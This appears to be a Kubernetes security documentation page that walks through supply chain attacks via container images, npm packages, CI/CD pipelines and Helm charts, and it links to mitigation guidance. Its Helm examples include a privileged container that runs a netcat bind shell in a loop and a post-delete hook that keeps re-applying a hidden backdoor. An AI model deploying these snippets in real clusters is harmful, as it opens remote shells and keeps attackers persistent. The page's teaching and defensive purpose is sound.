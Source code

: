 ```yaml
---
sidebar_position: 6
title: "Supply Chain Attacks"
description: "How attackers compromise container images, dependencies, CI/CD pipelines, and Helm charts to infiltrate Kubernetes clusters."
---
```


# Supply Chain Attacks

Supply chain attacks in Kubernetes target the **container build process, dependencies, CI/CD pipelines, or Helm charts** to introduce malicious components into your cluster. These attacks can lead to **unauthorized access, persistent backdoors, and data exfiltration**.

---

## Exploitation Steps: Poisoning the Software Supply Chain

An attacker compromises the cluster by introducing malicious components during the software delivery lifecycle.

### 1. Publish a Malicious Container Image

The attacker creates and pushes a backdoored image to a public registry:

```bash
docker build -t attacker/malicious-app .
docker push docker.io/attacker/malicious-app
```

---

### 2. Deploy Unverified Image in Production

A Kubernetes workload unknowingly uses the attacker’s image:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: vulnerable-app
spec:
  template:
    spec:
      containers:
        - name: app
          image: docker.io/attacker/malicious-app
```

No signature validation or source verification is performed.

---

### 3. Inject Malicious Dependencies

The attacker publishes a compromised package:

```bash
npm publish compromised-library
```

It is pulled automatically by an unsuspecting developer into a container image, enabling **remote code execution** in production.

---

### 4. Tamper with the CI/CD Pipeline

The attacker steals CI secrets and modifies manifests:

```bash
kubectl apply -f attacker-modified-deployment.yaml
```

This injects malicious logic into deployments automatically.

---

## Exploitation Steps: Deploying a Malicious Helm Chart

Helm charts offer another attack surface for supply chain compromise.

### 1. Publish a Malicious Helm Chart

The attacker embeds a backdoor in a Helm chart:

```yaml
containers:
  - name: backdoor-container
    image: attacker/malicious-image
    securityContext:
      privileged: true
    command: ["/bin/sh", "-c"]
    args: ["while true; do nc -lvp 9001 -e /bin/sh; done"]
```

They then push it to a public repository:

```bash
helm package malicious-app
helm push malicious-app-1.0.0.tgz oci://public-helm-repo
```

---

### 2. Install Chart Without Verification

A user installs the chart without checking provenance:

```bash
helm repo add untrusted-repo oci://public-helm-repo
helm install vulnerable-app untrusted-repo/malicious-app
```

The **malicious workload** is now running.

---

### 3. Bypass Pod Security Policies

The attacker escalates privileges through insecure templates:

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: privileged-psp
spec:
  privileged: true
  runAsUser:
    rule: RunAsAny
  seLinux:
    rule: RunAsAny
```

They enable this at install:

```bash
helm install --set securityPolicy.privileged=true exploit-app
```

---

### 4. Maintain Persistence After Uninstall

A Helm hook ensures the backdoor remains:

```yaml
hooks:
  post-delete:
    - exec:
        command:
          [
            "/bin/sh",
            "-c",
            "while true; do sleep 60; kubectl apply -f /tmp/hidden-backdoor.yaml; done",
          ]
```

Even if the user runs:

```bash
helm uninstall exploit-app
```

The malicious deployment **reinstalls itself**.

---

### Result

The attacker successfully compromises the Kubernetes cluster via supply chain vectors, enabling:

- Deployment of malicious containers and packages
- Privilege escalation
- Long-term persistence
- CI/CD pipeline abuse

---

## Mitigation

➡ [Securing the Kubernetes Supply Chain](/docs/best_practices/supply_chain_security/supply_chain_mitigation)
